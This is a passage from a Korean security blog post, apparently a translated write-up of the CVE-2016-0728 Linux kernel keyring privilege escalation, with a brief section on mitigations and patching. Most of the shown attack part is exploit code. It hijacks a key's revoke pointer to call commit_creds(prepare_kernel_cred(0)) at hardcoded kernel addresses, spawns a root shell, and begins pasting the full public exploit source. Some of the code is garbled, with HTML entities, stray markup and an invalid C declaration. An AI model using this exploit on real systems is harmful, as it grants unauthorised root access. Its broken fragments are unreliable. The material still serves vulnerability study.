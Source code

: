 ``` c++
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
 
struct key_type_s {
    void * [12] padding;
    void * revoke;
} type;
 
_commit_creds commit_creds = 0xffffffff81094250;
_prepare_kernel_cred prepare_kernel_cred = 0xffffffff81094550;
 
void userspace_revoke(void * key) {
    commit_creds(prepare_kernel_cred(0));
}
 
int main(int argc, const char *argv[]) {
    ...
    struct key_type * my_key_type = NULL;
    ...
    my_key_type = malloc(sizeof(*my_key_type));
    my_key_type-&gt;revoke = (void*)userspace_revoke;
    ...
}
```

common_creds와 prepare_kernel_cred 함수의 주소는 정적이기 때문에 리눅스 커널 버전과 안드로이드 디바이스를 확인할 수 있다.

자, 이제 마지막 과정이다.

> execl(“/bin/sh”, NULL);

이 [링크](https://gist.github.com/PerceptionPointTeam/18b1e86d1c0f8531ff8f)에는 64비트 3.18 커널 시스템에서 완전히 활용할 수 있는 풀 익스플로잇 코드가 있다. 아래 결과는 EXP가 인텔 i7-5500 CPU에서 대략 30분 정도 실행 했을 때의 결과 화면이다. (보통 커널 권한 상승 취약점은 시간 문제가 존재하지 않는다.)


![14533726961784](https://bpsecblog.files.wordpress.com/2016/04/14533726961784.jpg?w=740)

------

#### Mitigations & Conclusions

이 취약점은 리눅스 커널 3.8 그리고 이보다 높은 버전들에 영향을 준다. SMEP(모니터링 모드를 통한 실행 보호) & SMAP, SELinux는 안드로이드 디바이스에서 이 취약점을 활용하는 데 어느정도의 어려움을 준다. 이제 우리는 이것들을 어떻게 우회할 지에 대해서 얘기해봐도 좋을 거 같다. 하지만 그전에 제일 중요한 것은 패치이므로 빨리 패치부터 진행하자!

``` c++
&lt;/pre&gt;
&lt;pre class=&quot;prettyprint lang-cpp prettyprinted&quot;&gt;/* https://gist.github.com/PerceptionPointTeam/18b1e86d1c0f8531ff8f */
/* $ gcc cve_2016_0728.c -o cve_2016_0728 -lkeyutils -Wall */
/* $ ./cve_2016_072 PP_KEY */
 
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;keyutils.h&gt;
#include &lt;unistd.h&gt;
#include &lt;time.h&gt;
#include &lt;unistd.h&gt;
 
#include &lt;sys/ipc.h&gt;
#include &lt;sys/msg.h&gt;
 
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
```